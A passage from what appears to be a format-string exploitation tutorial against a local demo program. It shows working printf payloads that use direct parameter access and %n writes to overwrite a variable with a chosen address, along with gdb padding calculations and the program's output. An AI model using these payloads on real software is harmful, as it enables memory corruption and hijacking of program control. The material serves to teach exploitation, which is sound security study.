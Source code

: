 vs

`echo "AAAA%5\$x" | ./demo`
```
AAAA41414141


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 0 0x00000000
```

DPA also simplifies the writing of memory addresses. As we can directly access memory, we don't need the 4-byte spacers of junk data to increment the byte output count anymore.

`echo "$(printf '\x8c\xbe\xff\xff\x8d\xbe\xff\xff\x8e\xbe\xff\xff\x8f\xbe\xff\xff')%5\$n" | ./demo`
```
����������������


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 16 0x00000010
```

Let's write the realistic looking memory address of `0xbffffd72` into the variable test_vals.

First we need to calculate the 

```
(gdb) p 0x72 - 16 
$1 = 98 
(gdb) p 0xfd - 0x72 
$2 = 139
(gdb) p 0x1ff - 0xfd
$2 = 258
(gdb) p 0x1bf - 0xff
$3 = 192
```

If we only do the first 3 writes, we can see the integer overflowing into the adjacent memory space on the left. This doesn't matter in this case, as we're going to overwrite the 0x01 with our 0xbf. 

It is something to think about though for the 4th write. If we're writing a number that overflows we could corrupt other variables.

`echo "$(printf '\x8c\xbe\xff\xff\x8d\xbe\xff\xff\x8e\xbe\xff\xff\x8f\xbe\xff\xff')%98x%5\$n%139x%6\$n%258x%7\$n" | ./demo`
```
����������������                                                                                          ffffd228                                                                                                                                    80491cc                                                                                                                                                                                                                                                          ffffbe90


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 33553778 0x01fffd72
```
